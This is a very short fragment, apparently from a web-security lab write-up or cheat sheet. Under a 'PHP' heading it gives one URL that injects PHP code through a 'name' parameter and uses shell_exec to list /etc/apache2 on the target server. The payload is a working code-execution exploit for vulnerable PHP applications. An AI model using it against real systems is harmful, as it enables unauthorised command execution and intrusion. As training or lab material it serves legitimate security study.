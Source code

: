 PHP
====
http://xxx.xxx.xxx.xxx/codeexec/example1.php?name=hacker%7b$%7bshell_exec('ls%20-al%20/etc/apache2')%7d%7d
